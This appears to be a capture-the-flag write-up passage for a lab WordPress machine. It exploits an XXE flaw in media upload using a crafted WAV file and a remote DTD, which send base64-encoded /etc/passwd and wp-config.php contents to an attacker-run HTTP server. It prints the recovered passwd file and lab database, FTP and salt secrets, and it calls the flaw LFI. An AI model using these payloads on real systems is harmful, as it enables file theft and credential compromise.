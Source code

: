 
1) With the wpscan we found another vulnerability:
 https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5 

2) We create 2 files one we call "payload.wav" and we load this:
```
'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.XX.XX:8000/xxe.dtd'"'"'>%remote;%init;%trick;]>\x00'
```

3)The other we call xxe.dtd and load :
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.XX.XX:8000/?p=%file;'>" >
```

4) Now we need to upload the files and to do this we need to first open a server with python :
```python
python3 -m http.server 8000
```
5) Now you have to load an audio file into the manager panel and it is the payload.wav file that you created locally
6) In the web server you created it should output the file /etc/passwd:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

7) This vulnerability is called LFI(Local File Inclusion), now to see the passwords edit the xxe.dtd file putting this directory in the resource parameter"/var/www/metapress.htb/blog/wp-config.php" :
```
<!ENTITY % file SYSTEM "php://filter/convert.base64
encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.XX.XX:9001/?p=%file;'>" >
```

8)  OUTPUT:
```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPA%
```